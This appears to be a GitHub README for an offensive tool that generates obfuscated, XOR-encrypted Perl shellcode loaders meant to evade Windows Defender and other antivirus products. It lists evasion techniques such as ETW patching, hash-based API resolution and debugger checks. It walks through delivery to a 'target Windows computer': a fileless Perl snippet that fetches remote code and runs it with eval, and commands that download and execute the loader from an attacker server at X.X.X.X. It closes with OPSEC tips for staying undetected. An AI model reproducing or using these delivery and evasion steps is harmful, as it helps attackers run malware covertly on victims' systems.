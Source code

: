 ### Invoke-Perl-ShellCodeLoader.pl
--------------------------------------
'Invoke-Perl-ShellCodeLoader' is a shellcode loader script generator that aims to bypass AV solutions such as Windows Defender.
It generates an obfuscated and encrypted shellcode loader (Perl script) that implements several antivirus bypass and defense evasion techniques.

#### FEATURES
  - Shellcode injection into the memory of the current process (Perl)
  - Shellcode encryption (XOR) and compression (Zlib)
  - Script obfuscation (randomized function and variable names + nested payloads with reflective loading)
  - ETW bypass in user-mode (patching 'NtTraceEvent')
  - Dynamic API resolution for the shellcode injection (via GetProcAddress + hash-based API resolution)
  - Basic sandbox detection and evasion (Delayed execution + Terminates execution if a debugger is detected)
  - Compatible with shellcodes of multiple C2 frameworks such as Metasploit and Havoc

#### USAGE
- STEP 1. Generate an obfuscated shellcode loader (Perl script) using a raw shellcode from your preferred C2 framework as input.
```
Example:
C:\path\perl> perl.exe .\Invoke-Perl-ShellCodeLoader.pl ".\raw-C2-shellcode.bin" ".\obfuscated_shellcodeloader.pl"
```

- STEP 2. Multiple options exist to download & execute the obfuscated shellcode loader (Perl script) on a target Windows computer

  - Option A: Utilize a portable Perl interpreter (https://strawberryperl.com/) + Fileless delivery of the obfuscated shellcode loader (Perl script) 
```
1 - Download the Strawberry Perl zip archive file from "strawberryperl.com" which provides a portable Perl interpreter with a good reputation.
    Note: the portable Perl zip archive is quite big and it can be lightened > for instance we can delete the 'c' folder that is 812 MB.
    Example:
    --------
    PS C:\temp> wget -uri https://github.com/StrawberryPerl/Perl-Dist-Strawberry/releases/download/SP_54021_64bit_UCRT/strawberry-perl-5.40.2.1-64bit-portable.zip -OutFile C:\temp\perl.zip
    PS C:\temp> tar -xf .\perl.zip

2 - Download from a remote web server and execute directly in memory the obfuscated shellcode loader script on the target Windows machine using Perl.
    This fileless delivery technique enhances stealth and helps evade static antivirus detection.
    Example:
    --------
    C:\temp\perl-portable\perl\bin> type .\Perl-fileless-delivery.pl
    #Perl
    use LWP::Simple;
    my $url = 'http://example.com/obfuscated_shellcodeloader.pl';
    my $script = get($url);
    eval $script;

    C:\temp\perl-portable\perl\bin> perl.exe .\Perl-fileless-delivery.pl
```
  - Option B: Utilize a portable Perl interpreter (https://strawberryperl.com/) + Download the obfuscated shellcode loader (Perl script) locally before execution.
```
1 - Download the Strawberry Perl zip archive file from "strawberryperl.com" which provides a portable Perl interpreter with a good reputation.
    Note: the portable Perl zip archive is quite big and it can be lightened > for instance we can delete the 'c' folder that is 812 MB.
    Example:
    --------
    PS C:\temp> wget -uri https://github.com/StrawberryPerl/Perl-Dist-Strawberry/releases/download/SP_54021_64bit_UCRT/strawberry-perl-5.40.2.1-64bit-portable.zip -OutFile C:\temp\perl.zip
    PS C:\temp> tar -xf .\perl.zip

2 - Download and store the obfuscated shellcode loader script locally on disk before executing it with Perl.
    While obfuscation and encryption help evade static analysis by most antivirus solutions, this approach may offer reduced stealth compared to in-memory execution.
    Example:
    --------
    C:\temp\perl-portable\perl\bin> powershell -c "wget -uri http://X.X.X.X/obfuscated_shellcodeloader.pl -OutFile C:\temp\perl-portable\perl\bin\obfuscated_shellcodeloader.pl"
    C:\temp\perl-portable\perl\bin> perl.exe .\obfuscated_shellcodeloader.pl
```
  - Option C (not recommended): Use Perl2Exe or "Strawberry Perl + PAR::Packer" to bundle the obfuscated shellcode loader Perl script into a single executable (e.g. script.exe) and then download and execute it on a target Windows computer
```
1 - Bundle the obfuscated shellcode loader Perl script into a single executable (e.g. script.exe)
    Example with "Strawberry Perl + PAR::Packer":
    ---------------------------------------------
    C:\path\perl\bin> set PAR_VERBATIM=1
    C:\path\perl\bin> pp -o script.exe -M MIME::Base64 -M Compress::Zlib obfuscated_shellcodeloader.pl

2 - Download and execute the obfuscated shellcode loader "script.exe" on a target Windows computer
    Important note => Many antivirus products (including Windows Defender) detect as malicious perl script embeded in "exe" file.
    Example:
    --------
    C:\temp> powershell -c "wget -uri http://X.X.X.X/script.exe -OutFile C:\temp\script.exe"
    C:\temp> script.exe
```

#### OPSEC advices
- Remove all existing comments in the script (loader template) before generating your obfuscated shellcode loader.
- When possible use fileless delivery technique to enhance stealth and evade static antivirus detection.
  
#### LICENSE
  - GNU General Public License v3.0
